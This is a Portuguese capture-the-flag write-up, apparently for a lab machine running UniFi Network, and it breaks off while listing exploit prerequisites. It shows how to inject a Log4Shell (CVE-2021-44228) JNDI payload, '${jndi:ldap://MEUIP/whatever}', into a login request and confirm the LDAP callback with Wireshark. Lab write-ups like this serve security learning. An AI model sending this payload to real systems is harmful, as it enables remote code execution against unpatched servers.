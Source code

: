 ```shell
Progress: 81876 / 81880 (100.00%)
```
{: .nolineno }

Temos uma webapp rodando chamada Unifi Network
Buscando por sua versão encontramos uma vulnerabilidade de RCE
**CVE-2021-44228**

Seguindo um passo a passo de como explorar a falha

Capturar a requisição de login com o burp, adicionar o payload e clicar em send. Resposta de erro.

`"${jndi:ldap://MEUIP/whatever}",`

![Alt text](/assets/img/unifi1.png)

Mesmo com a resposta de erro devemos verificar com wireshark se o payload esta tentando conectar em nossa maquina confirmando a vulnerabilidade.
Abra o wireshark e escolha a interface de rede tun0
Setar o filtro para `tcp.port == 389` e aplicar
Clique em send no burp suite.
Vamos receber isso no wireshark confirmando que a aplicação esta tentando conectar em nosso ip.

![Alt text](/assets/img/unifi2.png)

## **Exploit**

Durante a pesquisa do CVE achei Walkthrough para fazer o próprio exploit.

### Requisitos
Precisamos ter o OpenJDK cheque se já tem com java --version , maven e Rogue JNDI  
Instale:
sudo apt-get install maven
